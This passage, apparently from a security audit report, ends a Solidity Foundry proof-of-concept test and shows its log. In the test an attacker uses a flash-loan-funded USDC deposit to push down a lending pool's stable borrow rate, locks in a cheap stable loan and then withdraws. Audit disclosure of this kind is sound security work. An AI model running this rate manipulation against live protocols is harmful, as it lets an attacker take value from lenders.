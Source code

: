 ```solidity
            aliceLoanIds[0],
            hubPoolUsdc.getPoolId(),
            stableBorrowAmount,
            _getStableRateUsdc() * 2
        );

        (
            bytes32 accountId,
            uint16 loanTypeId,
            uint8[] memory colPools,
            uint8[] memory borPools,
            LoanManagerState.UserLoanCollateral[] memory colls,
            LoanManagerState.UserLoanBorrow[] memory borrows
        ) = loanManager.getUserLoan(aliceLoanIds[0]);

        console.log("borrowstableRate of loan         :", borrows[0].stableInterestRate);
        // Attacker now withdraws the excess large liquidity he deposited to manipulate utilization ratio
        // Withdraw the large USDC deposit
        _withdraw(alice, aliceAccountId, aliceLoanIds[0], hubPoolUsdc.getPoolId(), largeUsdcDeposit, false);

        console.log("Stable USDC rate after withdrawal:", _getStableRateUsdc());
    }
}

```

to execute the poc, please run `forge test --mt test_ManipulateStableBorrowRateThrough -vvv`
This is the expected result, after running the poc, in a terminal

```log
Ran 1 test for test/pocs/manipulateStableRatePoC.sol:Pocs
[PASS] test_ManipulateStableBorrowRateThrough() (gas: 2824202)
Logs:
  POOL + Borrows initialized + time has passed
  Initial borrowstableRate of pool : 80996227465354582
  Start Attack by performing large USDC deposit through flashLoan
  borrowstableRate after deposit   : 72118961254591337
  start the stable borrow
  borrowstableRate of loan         : 72118961254591337
  Stable USDC rate after withdrawal: 81981978627936564

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 513.01ms (16.62ms CPU time)

Ran 1 test suite in 516.42ms (513.01ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```